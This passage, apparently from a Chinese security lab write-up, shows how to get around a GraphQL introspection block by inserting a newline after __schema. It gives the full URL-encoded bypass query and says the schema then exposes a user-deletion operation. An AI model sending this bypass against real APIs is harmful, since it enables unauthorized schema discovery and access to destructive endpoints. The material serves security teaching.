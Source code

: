 从回显内容中可以看到这里不允许内省，修改查询以在\_\_schema 后包含换行符并重新发送，例如：

```bash
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema%0a+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

[![](assets/1708485015-ca34bff2a5f3037655bf507c37b9a45f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152200-bce8873e-cfc0-1.png)  
从上面可以看到响应现在包含了完整的内省细节，这是因为服务器被配置为排除与 regex "**schema{"匹配的查询，该查询不再匹配，即使它仍然是有效的内省查询，随后我们保存响应报文的内容并使用 InQL 加载文件进行解析操作，可以获取到用户删除操作接口**：

[![](assets/1708485015-0d97e8808e9c8c1bae91c7ced5a3d3f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152221-c946f952-cfc0-1.png)
